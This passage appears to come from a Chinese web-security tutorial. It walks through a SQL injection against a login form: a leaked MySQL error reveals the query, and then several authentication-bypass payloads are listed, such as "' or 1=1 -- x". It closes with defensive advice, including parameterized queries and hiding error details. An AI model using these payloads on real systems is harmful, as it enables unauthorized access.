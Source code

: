 ### 3. 揭密
对于sql而言，有些特殊字符（如：单引号，--，\，#等）、保留字（如：select，values，delete等）和内置函数（date，time，concat等），使用不当都有可能会导致SQL执行错误。

由此，我们尝试使用单引号，发现登录异常提示如下：
![特殊字符注入](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160308_12.png)
![特殊字符注入](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160308_12.png)
![特殊字符注入](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160308_12.png)
![特殊字符注入](http://o7kubqw1j.bkt.clouddn.com/asserts/images/article/WEB安全渗透分享/Snip20160308_12.png)

并且，发现在控制台出现如下异常信息：
``` bash
StatementCallback; bad SQL grammar [select count(id) from user2 where username = ''' and password = '']; nested exception is com.mysql.jdbc.exceptions.jdbc4.MySQLSyntaxErrorException: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '''' and password = ''' at line 1
```

从异常内容可以发现，出错的SQL内容为：
``` sql
select count(id) from user2 where username = ''' and password = ''
```

于是乎就从盲目地注入，变成了有针对性的注入。
针对于此，可以填写如下内容进入SQL注入：
``` sql
username: \
password: or '' = '

username: \
password: or 1 != '

username: ' or 1 !=
password: '--

username: ' or 1 !=
password: '--

username: ' or 1=1 -- x
username: ' or 1=1 #
```

**注**：答案可以很多。


### 4. 小结
- 避免出现一些详细的错误消息，异常不要抛出来，在服务器端打印日志用于异常分析就好。
- 永远不要使用动态拼装sql，使用数据库或开发框架提供的参数化查询接口。
- 机密信息不要直接存放，加密或者hash密码和敏感的信息再存储。
- 用户输入过滤：对特殊字符单引号和双"-"等进行转义处理或编码转换。
- SQL注入检测工具进行检测。如：sqlmap、SQLninja等。
